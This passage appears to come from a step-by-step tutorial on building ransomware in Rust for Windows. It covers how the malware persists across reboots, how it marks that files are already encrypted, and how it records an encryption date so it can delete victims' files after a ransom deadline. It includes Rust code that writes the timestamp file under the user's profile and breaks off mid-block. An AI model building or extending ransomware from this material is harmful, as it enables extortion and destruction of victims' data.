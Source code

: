 Different malwares have different reason for this. Trojans want to do this to maintain a backdoor, keylogger wants to continuously log keystrokes, or ransomware wants to keep displaying the ransomnote to make victim feel scared into paying the ransom.


For us, we will want to be able to do just that, running every time after rebooting and displaying the ransomnote.


There are a few problems we need to solve.

1. How are we going to make this executable run automatically after every reboot?
2. Since we are running the same code over and over again, how can the malware detect that the files have been encrypted so it does not waste time traversing through directories again?
3. How to keep track of the time when we first encrypt so we know when the deadline will be up and we can start deleting their files.


Well, this all depends on implementation, and there are so many ways to solve this. 


First, let's try and tackle problem 2 and 3. A simple solution to this is to just create a file somewhere on the system after encryption. Every time the malware is ran, it will check for the existence of this file. If this file exists, it does not traverse to encrypt anymore.


This can act as a kill-switch for the malware. Basically, if this condition is met, the malware is virtually harmless. I first install this feature when testing the malware on my machine in order not for it to encrypt any of my files.


Next, we can write the date and time what we finish encrypting into this file. This will let us keep track of the time when we encrypt the files, and when we can start deleting the files if they fail to pay up.


In **traverse_and_encrypt()**, we can do something like this


``` rust
    let mut full_path = String::from("C:\\Users\\");
    full_path.push_str(str::from_utf8(&user_name[..]).unwrap());
    full_path.push_str("\\encrypt_date.txt");

    let full_path: CString = CString::new(full_path).unwrap();

    let date_file: HANDLE = CreateFileA(
        full_path.as_ptr(),
        FILE_WRITE_DATA,
        FILE_SHARE_READ,
        null_mut(),
        OPEN_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        null_mut(),
    );

    let mut current_time: SYSTEMTIME = SYSTEMTIME {
        wYear: 0,
        wMonth: 0,
        wDayOfWeek: 0,
        wDay: 0,
        wHour: 0,
        wMinute: 0,
        wSecond: 0,
        wMilliseconds: 0,
    };
    GetSystemTime(&mut current_time);

    let mut write_buffer: Vec<u8> = Vec::new();
    if current_time.wMonth == 12 {
        current_time.wMonth = 1;
```